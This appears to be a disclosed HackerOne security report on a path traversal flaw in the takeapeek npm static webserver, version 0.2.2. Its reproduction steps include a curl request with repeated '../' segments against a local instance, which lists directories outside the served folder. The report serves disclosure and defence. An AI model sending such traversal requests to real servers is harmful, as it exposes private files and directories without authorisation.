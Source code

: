 # [takeapeek] Path traversal allow to expose directory and files

## Report Details
- **Report ID**: 403736
- **URL**: https://hackerone.com/reports/403736
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-01T05:13:41.721Z
- **Disclosed**: 2018-11-02T10:37:18.721Z

## Reporter
- **Username**: abdilahrf_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Path Travelsal in takeapeek
It allows attacker to list directory and files.

# Module

**module name:** takeapeek
**version:** 0.2.2
**npm page:** `https://www.npmjs.com/package/takeapeek`

## Module Description

A simple static webserver with only one command. Heavily inspired by glance, this is really more of a learning experience then anything.

## Module Stats

~100 downloads per month 

# Vulnerability

## Vulnerability Description

Attacker was able to exploit path traversal and view sensitive directory and files.

## Steps To Reproduce:

- `npm i takeapeek`
- `node node_modules/takeapeek/dist/bin.js`
- `curl --path-as-is http://localhost:3141/../../../../../../`

F340897


## Supporting Material/References:

- OS: Windows 10
- NODE: v10.8.0
- NPM : 6.2.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It allows attacker to list directory and files.

## Attachments
- takeapeek-pathtraversal.PNG
